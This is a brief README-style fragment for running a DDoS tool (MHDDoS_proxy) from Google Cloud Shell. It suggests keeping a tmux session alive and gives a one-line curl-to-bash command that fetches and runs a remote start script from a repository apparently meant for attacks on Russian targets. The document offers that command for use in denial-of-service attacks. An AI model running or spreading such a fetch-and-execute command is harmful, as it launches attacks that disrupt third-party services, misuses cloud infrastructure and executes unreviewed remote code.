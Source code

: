 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session

dualshell (tmux)

curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start | bash
